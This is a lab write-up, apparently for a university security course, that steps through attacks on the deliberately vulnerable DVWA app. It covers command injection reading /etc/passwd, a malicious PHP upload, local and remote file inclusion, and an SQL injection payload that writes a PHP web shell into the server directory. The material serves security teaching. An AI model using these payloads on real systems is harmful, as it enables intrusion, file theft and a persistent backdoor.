 # Injections

## Prerequisites

- DVWA setup and accessible
- Login as `admin:password`
- From the side navbar, navigate to `DVWA Security` and set security level to `low`

## Command Injection

- From the website, navigate to `Command Injection`.
- In the IP address textfield, type `127.0.0.1 ; cat /etc/passwd`.
- Click the submit button.
- You should see the following

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/command_injection.PNG" alt="command_injection_screenshot" />

## Malicious File Upload

- From the website, navigate to `File Upload`.
- Click the `Browse` button.
- Select [file_upload.php](utils/file_upload.php).
- Click the upload button and way for the success message.
- Navigate to `{IP}/hackable/uploads/file_upload.php`.
- If the php script is successfully executed, you should something similar to the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/file_upload.PNG" alt="file_upload_screenshot" />

## Local File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `../../../../../../etc/passwd`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/local_file_inclusion.PNG" alt="local_file_inclusion_screenshot" />

## Remote File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `https://google.com`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/remote_file_inclusion.PNG" alt="remote_file_inclusion_screenshot" />

## SQL Injection + backdoor

- POSSIBLE PAYLOAD: `' UNION SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/html/temp/c.php"#`

I am getting the following error, but it might be caused by the way I set up the webapp: `Acceess denied for user 'dvwa'@'localhost' (using password: YES)`
